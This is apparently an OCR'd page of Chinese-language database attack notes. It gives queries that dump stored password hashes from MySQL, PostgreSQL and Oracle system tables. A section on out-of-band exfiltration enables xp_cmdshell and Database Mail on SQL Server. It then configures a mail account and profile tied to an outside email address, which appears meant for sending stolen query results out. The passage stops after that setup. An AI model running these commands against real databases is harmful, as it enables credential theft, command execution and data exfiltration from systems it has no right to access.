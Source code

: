mysql
select user,password from mysql.user

*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9

password(‘password’)


postgresql
select usename,passwd from pg_shadow

md553jd93das3035983274098fjk93249090sdkjf99

md5+md5(‘passowdusename’)

oracle
在user$表中既有des加密口令又有sha1加密口令
oracle des用户名口令
select username,password from sys.user$ where type#>0

oracle des 角色口令
select username,password from sys.user$ where type#=1 and
length(password)=16

oracle sha1用户名口令
select username,substr(spare4,3,40) as hash,substr(spare4,43,20) as salt from sys.user$ where type#>0 and length(spare4)=62



十．利用e-mail带外通信
带外通信（OOB,Out Of Band）：查询与返回结果不在同一信道上传输
sql server

database mail(sql server 2005,2008)

exec sp_configure ‘show advanced’,1;
go
reconfigure;
exec sp_configure ‘xp_cmdshell’,1;
go
reconfigure;
exec sp_configure ‘Database Mail XPs’,1;
go
reconfigure;

(1)添加用户并加入profileaccount
exec msdb.dbo.sysmail_add_account_sp--创建用户
@account_name=’wu’,
@email_address=’1351367889@qq.com’,
@mailserver_name=’smtp.victim.com’,
@username =  '1351367889@qq.com',
@password = 'qq授权码',
@enable_ssl =enable_ssl;

exec msdb.dbo.sysmail_add_profile_sp --新建配置文件
@profile_name=’mypro’;

exec msdb.dbo.sysmail_add_profileaccount_sp --添加用户到配置文件
@profile_name=’mypro’,
@account_name=’wu’,
@sequence_number=1;
